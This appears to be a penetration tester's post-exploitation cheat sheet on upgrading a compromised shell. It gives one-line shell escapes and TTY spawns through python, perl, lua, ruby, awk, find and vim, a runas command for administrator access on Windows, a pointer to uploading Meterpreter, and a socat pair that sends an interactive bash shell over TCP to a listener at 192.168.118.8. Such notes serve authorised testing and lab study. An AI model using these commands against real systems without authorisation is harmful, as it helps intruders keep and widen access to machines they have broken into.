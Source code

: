 ```yaml
---
tags:
  - Post-Exploitation
---
```

Upgrading a shell allows for command history and key bindings

# Guide

1. `cat /etc/shells` to see all the shells on the system
2. Upload and run a [[2. Meterpreter Shell|Meterpreter Shell]]
# Walkthrough 

1. [How to Upgrade a Dumb Shell to a Fully Interactive Shell for More Flexibility](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/)
2. [Upgrade Simple Shells to Fully Interactive TTYs | 0xffsec Handbook](https://0xffsec.com/handbook/shells/full-tty/)

# Windows

By using the `runas` command, you can temporarily switch to a different user account that has more permissions, such as an administrator or root account. This can give you access to additional commands and resources that may not be available with your current shell.

To upgrade your shell using the `runas` command, simply specify the user account you want to switch to and the command you want to run. For example, you could run `runas /user:administrator cmd` to open a new command prompt window with administrator privileges.

## Linux 
### stty

Press `ctrl-z`

```sh
stty raw -echo && fg
```

```
reset
```
### Python

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### Perl

```shell-session
perl —e 'exec "/bin/sh";'
```

### Lua

The command directly below should be run from a script.

```shell-session
lua: os.execute('/bin/sh')
```

### Ruby

The command directly below should be run from a script.

```shell-session
ruby: exec "/bin/sh"
```
### /bin/sh

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).

```
/bin/sh -i
```

### AWK

```shell-session
awk 'BEGIN {system("/bin/sh")}'
```
### Bash 

#### Notes

Special Bash characters which can return some information regarding the operating system.

|**Special Character**|**Description**|
|---|---|
|`\d`|Date (Mon Feb 6)|
|`\D{%Y-%m-%d}`|Date (YYYY-MM-DD)|
|`\H`|Full hostname|
|`\j`|Number of jobs managed by the shell|
|`\n`|Newline|
|`\r`|Carriage return|
|`\s`|Name of the shell|
|`\t`|Current time 24-hour (HH:MM:SS)|
|`\T`|Current time 12-hour (HH:MM:SS)|
|`\@`|Current time|
|`\u`|Current username|
|`\w`|Full path of the current working directory|

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).

```
/bin/bash -i
```

### Find 

```shell-session
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```shell-session
find . -exec /bin/sh \; -quit
```

### VIM

```shell-session
vim -c ':!/bin/sh'
```
#### Vim Escape

```shell-session
vim
:set shell=/bin/sh
:shell
```
### SoCat

Listener

```
sudo socat file:`tty`,raw,echo=0 tcp-listen:445
```

Sender

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.118.8:445
```
